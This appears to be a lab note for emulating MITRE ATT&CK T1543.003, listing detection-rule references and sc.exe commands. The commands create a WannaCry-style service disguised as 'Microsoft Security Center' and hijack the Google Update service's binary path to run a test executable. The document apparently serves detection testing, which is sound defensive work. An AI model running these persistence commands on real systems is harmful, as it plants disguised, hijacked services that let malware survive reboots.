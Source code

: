 # Create or Modify System Process: Windows Service

- **REPORT:**
  - https://drive.google.com/file/d/1rcu8VCZr3erZg_fBgMniqbGxXuJk138P/view?usp=sharing
- **REFERENCES:**

  - https://attack.mitre.org/techniques/T1543/003/
  - [malware analysis persistence-technique](https://cocomelonc.github.io/tutorial/2022/05/09/malware-pers-4.html) .
  - Rule:
    - https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_sc_service_path_modification.yml
    - https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_sc_create_service.yml
    - https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_powershell_create_service.yml
    - https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation
    - https://valhalla.nextron-systems.com/info/sigma-rule/85ff530b-261d-48c6-a441-facaa2e81e48
    - `Registry` https://github.com/elastic/detection-rules/blob/59da2da4740da52df15ce11139150b61cd57f9e1/rules/windows/persistence_services_registry.toml

- Code and compile program `Windows Service Application` - WannaCry.exe

- Create Service `(Administrator: Command Prompt)`

  - Create Service follow case attack WannaCry.

  ```powershell
  sc create "mssecsvc2.0" DisplayName= "Microsoft Security Center (2.0) Service" binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe" start= "auto"
  ```

  - Start, stop, delete service

  ```powershell
  sc start mssecsvc2.0
  ```

  ```powershell
  sc stop mssecsvc2.0
  ```

  ```pơwershell
  sc delete mssecsvc2.0
  ```

- Modify Service `(Administrator: Command Prompt)`
  - Modify google update service.
  ```powershell
  sc config gupdate binPath= "C:\Users\nigmaz\source\repos\WannaCry\x64\Release\WannaCry.exe"
  sc start gupdate
  ```
  - Restore default path google update.
  ```powershell
  sc config gupdate binPath= "\"C:\Program Files (x86)\Google\Update\GoogleUpdate.exe\" /svc" >nul 2>&1
  ```
